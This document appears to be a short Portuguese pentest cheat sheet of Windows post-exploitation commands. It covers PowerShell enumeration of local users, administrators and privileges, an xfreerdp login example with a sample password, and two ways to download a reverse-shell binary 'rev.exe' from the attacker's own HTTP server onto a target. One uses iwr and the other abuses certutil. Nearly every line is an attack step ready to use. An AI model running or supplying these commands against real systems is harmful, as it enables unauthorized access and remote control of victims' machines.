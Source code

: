 **powershell, enumerar usuários locais**
```
Get-LocalUser

Name           Enabled Description
----           ------- -----------
Administrator  True    Built-in account for administering the computer/domain
DefaultAccount False   A user account managed by the system.
Guest          True    Built-in account for guest access to the computer/domain
Jenny          True
John           True
```
obs: a coluna **`Enabled`** indica se a conta de usuário local está ativa (habilitada) ou desativada.

powershell, enumerar usuários locais com permissão de administradores:
```
Get-LocalGroupMember -Group "Administrators"

ObjectClass Name                          PrincipalSource
----------- ----                          ---------------
User        EC2AMAZ-I8UHO76\Administrator Local
User        EC2AMAZ-I8UHO76\Guest         Local
User        EC2AMAZ-I8UHO76\Jenny         Local
```

**enumerar privilégios de usuário**
```
whoami /priv
whoami /all
```

## Remote Desktop Protocol (rdp port 3389)
utilitário para interagir com rdp no linux
```
xfreerdp
xfreerdp /v:<IP_do_host> /u:<nome_do_usuário> /p:<senha>
xfreerdp /v:10.10.39.3 /u:Administrator /p:letmein123!
```


# powershell
transferencia do arquivo rev
```
iwr -uri http://<meu_ip>:PORT/rev.exe -outfile rev.exe
```
executar antes
```
python3 -m http.server <PORT>
```

# cmd
transferencia do arquivo rev
```
certutil.exe -urlcache -split -f "http://<meu_ip>:PORT/rev.exe"
```
executar antes
```
python3 -m http.server <PORT>
```
